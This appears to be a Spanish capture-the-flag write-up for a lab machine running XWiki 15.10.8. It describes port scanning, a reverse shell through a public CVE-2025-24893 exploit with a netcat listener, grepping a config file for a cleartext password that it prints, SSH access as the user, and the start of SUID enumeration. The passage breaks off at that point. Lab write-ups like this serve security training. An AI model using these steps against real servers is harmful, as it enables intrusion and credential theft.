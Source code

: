 #xWiki #RCE 

## Reconocimiento
Empezamos la maquina realizando un reconocimiento de puertos y servicios con [[NMAP]]:
`nmap -sS -p- --open --min-rate 5000 -n -Pn -vvv 10.10.11.80 -oG allPorts`

Encontramos los puertos `22, 80, 8080`

Añadimos la maquina al fichero `/etc/hosts`

Navegamos al puerto `80` por la web y encontramos que en el apartado `Docs` nos redirige a `wiki.editor.htb` para poder verlo correctamente lo volvemos a añadir al `/etc/hosts`

Navegando en la web de `http://wiki.editor.htb/xwiki/bin/view/Main/` vemos que la versión de `xWiki` es la `15.10.8`

Buscamos en internet información sobre esta versión y encontramos que es vulnerable a RCE, usamos el exploit de GitHub `https://github.com/Bishben/xwiki-15.10.8-reverse-shell-cve-2025-24893`
el cual nos explica como explotarlo.

## Explotación
Para explotarlo necesitamos ponernos primero en escucha con [[NETCAT]] en un puerto de nuestra maquina `nc -nlvp 4444`

Después deberemos ejecutar el Python 
`python3 cve-2025-24893.py <target_base_url> <lhost> <lport>`

En nuestro listenner obtendremos una Shell como `xWiki`

## Escalada de Privilegios
Si navegamos al directorio `/home` vemos que hay un usuario `Oliver`, para poder pivotar a el, buscaremos información en los archivos de configuración de `xWiki`

Estos ficheros de configuración se encuentran en `/usr/lib/xwiki/WEB-INF` exactamente miraremos el archivo `hibernate.cfg.xml`
En este archivo filtraremos por la palabra `password`
`cat hibernate.cfg.xml | grep "password"` encontramos una línea que nos indica la siguiente contraseña `theEd1t0rTeam99`

Probamos a conectar por SSH al usuario `Oliver` con `ssh oliver@10.10.11.80`
Confirmamos que las credenciales son `oliver::theEd1t0rTeam99`

Ahora tenemos que escalar privilegios a `root`
Probamos a ver que programas podemos ejecutar como root con `sudo -l`
y no nos otorga ninguna informacion

Probamos con los permisos SUID `find / -perm -4000 2>/dev/null`


